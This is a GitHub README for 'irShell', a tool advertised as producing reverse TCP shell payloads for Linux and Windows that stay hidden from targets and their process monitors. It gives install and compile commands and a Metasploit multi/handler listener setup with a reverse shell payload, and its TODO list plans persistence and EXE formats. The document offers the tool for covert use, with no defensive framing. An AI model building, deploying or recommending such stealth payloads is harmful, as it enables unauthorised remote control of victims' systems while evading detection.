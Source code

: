# irShell
💯% Invisible Reverse TCP Shell Payloads for Linux/Windows 🥷

## About:
What I believe to be an original and effective method for creating reverse TCP payloads that are 100% invisible not only to the target but the target's resource/process monitors, no PIDs or even open ports are visible. Simple MSFconsole handlers/listeners are then used for callbacks.


## Requirements:

SHC 

```
sudo apt install -y shc
```

Bash

```
sudo apt install -y bash
```
GCC

```
sudo apt install -y gcc
```




## Installation:

```
git clone https://github.com/MBHudson/irShell.git && cd irShell && sudo gcc irShell.c -o irShell && sudo chmod +x irShell
```

## Usage:

```
sudo ./irShell
```

## MSFconsole:

```
set exploit/multi/handler
set PAYLOAD linux/x64/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
run
```

## TODO

- [ ] Persistence without reboot
- [ ] EXE and Shell formats
- [ ] All-in-One built-in dependency installation 
